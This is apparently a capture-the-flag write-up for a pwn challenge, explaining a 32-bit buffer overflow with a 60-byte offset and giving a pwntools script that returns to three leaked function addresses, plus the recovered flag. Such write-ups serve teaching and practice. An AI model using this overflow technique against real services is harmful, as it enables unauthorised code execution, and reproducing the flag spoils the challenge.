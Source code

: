 # Pwn - bh01
## Description
```
Access the network service at 3-bh02.bootupctf.net port: 8221 and find a way to get the flag.
```

```
Let's see you take over.
Get the flag from the following functions at these addresses:


Fn 3: 0x5664a6f1
Fn 2: 0x5664a6af
Fn 1: 0x5664a66d
Well?
> 
```
So we need to execute a buffer overflow, and return to each of those 3 addresses. The addresses change every run.
Trial and error shows that the offset is 60 chars this time.
Quick python script:
```
from pwn import *

conn = remote('3-bh02.bootupctf.net',8221,level='debug')
conn.recvuntil(b"Fn 3:")
fn3 = conn.recvuntil(b"\n")
conn.recvuntil(b"Fn 2:")
fn2 = conn.recvuntil(b"\n")
conn.recvuntil(b"Fn 1:")
fn1 = conn.recvuntil(b"\n")

fn1 = fn1.strip()
fn2 = fn2.strip()
fn3 = fn3.strip()
fn1 = (p32(int(fn1,16)))
fn2 = (p32(int(fn2,16)))
fn3 = (p32(int(fn3,16)))
sleep(0.1)

conn.sendline(b'a'*60+fn3) #<- Change here
#conn.sendline(b'a'*60)
conn.recvline()
conn.recvline()
```
Manually changing this script to change which adress is being targeted allows for the flag to be outputed in 3 parts:
```
    b'Flag = mUcHR'
    b'OP_HoWRAN'
    b'dOM_9182'
```

